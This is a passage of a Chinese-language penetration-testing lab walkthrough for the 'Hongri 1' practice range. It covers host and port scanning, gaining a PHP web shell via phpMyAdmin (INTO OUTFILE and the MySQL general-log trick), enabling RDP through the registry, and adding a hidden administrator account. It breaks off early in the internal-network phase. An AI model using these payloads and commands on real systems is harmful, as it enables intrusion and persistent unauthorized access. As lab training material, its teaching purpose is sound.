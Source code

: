 # 红日1靶场(一)

搭建环境过程省略

拓扑图
ip

dc 192.168.52.141

成员 192.168.52.138

web 192.168.72.4 192.168.52.143



### 信息收集

2.1扫描主机

```
netdiscover
```



![image-20200812155453582](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200812155453582.png)

2.2探测端口

```
nmap -sC -sV -Pn -p 1-65525 192.168.72.4          //-sC根据端口识别服务 -sV版本探测 -Pn不检测主机存活 -p扫描指定端口
```

![image-20200812155928191](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200812155928191.png)

2.3打开发现一个php探针模块 滑到最下面 发现可以连接mysql数据库 默认密码 root root

另外还有一个,也可以尝试getshell

http://192.168.72.4/yxcms/index.php?r=admin/index/index

![image-20200812160516081](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200812160516081.png)

![image-20200812160756335](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200812160756335.png)

![image-20200812160733487](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200812160733487.png)

2.4利用phpadmin getshell 有两种方法into outfile 和 利用日志文件写入

第一种 利用条件 需要知道网站绝对路径 和root权限 [其实方法是对的,鉴于mysql的新特性而言等会补充]

```sql
select  '<?php eval($_POST[cmd]); ?>'  into outfile  'C:/phpStudy/WWWshell.php';
```

提示这个

![image-20200813083217060](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200813083217060.png)

第二种利用mysql日志写入

```mysql
#查看日志状态
show variables  like  '%general%';
#这里解释一下,当开启general时,所执行的sql语句就会生成对应的文件中
SET GLOBAL general_log='on'
SET GLOBAL general_log_file='C:/phpStudy/www/233.php'
SELECT '<?php eval($_POST["cmd"]);?>'
```

![img](https://mmbiz.qpic.cn/mmbiz_png/ddqrZtAEBOiaW4QMLSzMxVTk7RcjliaATzpOFVmVia9x0kf4tVjNoIic35OxTicDgXmNOhR7I992B4eRqRQutw9IjkQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

**![image-20200813100723299](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200813100723299.png)**

2.5这里我们已经getshell并连接上了.开始一波内网信息收集

![image-20200813102958077](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200813102958077.png)

# 内网渗透

3.1尝试远程登录

查看当前用户权限,如果渗透进去发现是Windows系统的话,首先尝试连接他的远程桌面,所以再看一下3389端口开放情况

![image-20200813103313458](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200813103313458.png)

```shell
#运行下面的命令,有回显说明打开的,没有回显说明关闭的
netstat -an | find "3389"
#运行下面的命令,打开3389端口,八个0是打开 八个一是关闭
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

```

3.2添加一条用户,尝试利用3389远程登录--发现连接不上,估计和防火墙,有关系,可能有白名单也说不定

```powershell
net user test 1234.com /add
net localgroup administrators test /add
net user test
```

![image-20200813104338630](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200813104338630.png)

![image-20200813104945055](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200813104945055.png)

```


```

